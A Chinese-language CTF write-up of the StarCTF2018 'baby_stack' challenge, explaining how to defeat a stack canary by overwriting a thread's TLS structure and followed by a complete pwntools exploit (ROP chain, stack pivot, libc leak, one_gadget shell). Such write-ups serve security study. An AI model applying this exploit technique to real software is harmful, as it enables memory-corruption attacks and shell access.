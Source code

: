 ```yaml
---
title: PHP积累 //文章标题
date: 2020-02-20
tags:
    - bypass canary //文章标签
categories:
    - Pwn//文章目录
keywords: 
    - 覆写TLS结构体 //文章关键词
description: 
    - CTF //文章描述
toc: true
---
```

作者：LordRiot
#### emmmm今天把手机摔坏导致很不爽，于是搞了好几个小时这个题，最后发现自己是个rz orz


### StarCTF2018 baby_stack
今天等修手机的时候想起昨天看到ichunqiu新春战役的BFnote里利用覆写TLS结构体bypass了canary，于是就很好奇其具体原理，查了一波发现，那一题是利用libc2.23的特殊机制覆写了main线程的TLS，然后找到另一个覆写TLS结构体的题，即是本题，不过不同的是，本题直接利用pthread_create函数，加了个线程出来，然后由于该线程的栈在其TLS结构体之上，所以可以覆写成功。


这一题是我知道原理之后纯动调做的orz，就先打个断点，康康canary的值，之后跟进，直接find canary，查到其在内存中的所有位置，发现有四处，其中一处是在main线程的TLS，两处是在新线程的栈，一处是在新线程的TLS结构，然后算出偏移，直接全部覆写成'\x00'，然后由于改了TLS（TLS结构体里本身有些随机的量，例如一些在libc上的地址什么的，第一次覆写肯定无法保持，只能全覆写成0了），所以需要栈迁移一下，就read payload到新栈，然后劫持栈到新栈即可，然后似乎是由于payload长度的关系，我一度想写'/bin/sh\x00'，然后call system来getshell，但是始终不行，动调了俩小时，毫无起色，甚至我都跟着system源码单步调试了，发现似乎是payload的某个地方的覆写导致的，然后换成了one_gadget，一梭搞定，orz，原地自闭，下面贴一下exp。（one_gadget 我直接用的本地的，是2.27的，打远程的话，第一次leak出版本再获取一样的）

```
p = process('./baby_stack')

puts_plt = 0x4006F0
read_got = 0x601FD0
puts_got = 0x601FB0
new_stack = 0x602400
init_pop = 0x400B6A
init_mov = 0x400B50

pop_rdi = 0x400b73
pop_rbp = 0x4007d8
leave = 0x4008a6

fake_canary = '\x00' * 8
first_offset = 0xB0
second_offset = 0x820

fake_TLS = p64(0x603270)
fake_TLS += p64(0)
fake_TLS += p64(1)
fake_TLS += p64(0)
fake_TLS += fake_canary

rop_chain = p64(init_pop)
rop_chain += p64(0)
rop_chain += p64(1)
rop_chain += p64(read_got)
rop_chain += p64(0)
rop_chain += p64(new_stack)
rop_chain += p64(0x400)
rop_chain += p64(init_mov)
rop_chain += '\x00' * 0x38
rop_chain += p64(pop_rbp)
rop_chain += p64(new_stack - 8)
rop_chain += p64(leave)

payload = '\x00' * 0x101b
payload += rop_chain
payload += '\x00' * (second_offset - 16 - len(rop_chain))
payload += fake_TLS

p.recvuntil('How many bytes do you want to send?')
p.send(str(len(payload)))

sleep(1)
p.send(payload)

sleep(1)
p.send('\x00' * 3)

rop_chain = p64(init_pop)
rop_chain += p64(0)
rop_chain += p64(1)
rop_chain += p64(read_got)
rop_chain += p64(0)
rop_chain += p64(new_stack + 0x400)
rop_chain += p64(0x400)
rop_chain += p64(init_mov)
rop_chain += '\x00' * 0x38
rop_chain += p64(pop_rbp)
rop_chain += p64(new_stack + 0x400 - 8)
rop_chain += p64(leave)

payload = p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += rop_chain

p.recvuntil('It\'s time to say goodbye.')
p.send(payload)

p.recvline()
puts_addr = u64(p.recv(6).ljust(8, '\x00'))
obj = LibcSearcher('puts', puts_addr)
base_addr = puts_addr - obj.dump('puts')
one_gadget = 0x4f322 + base_addr

sleep(1)
p.send(p64(one_gadget))

p.interactive()
```

本来还想水一期栈迁移和SROP的博客，但最近事情太多了，还要赶紧学堆，就先鸽了，以后有时间把return to VDSO和SROP一块写了: - )
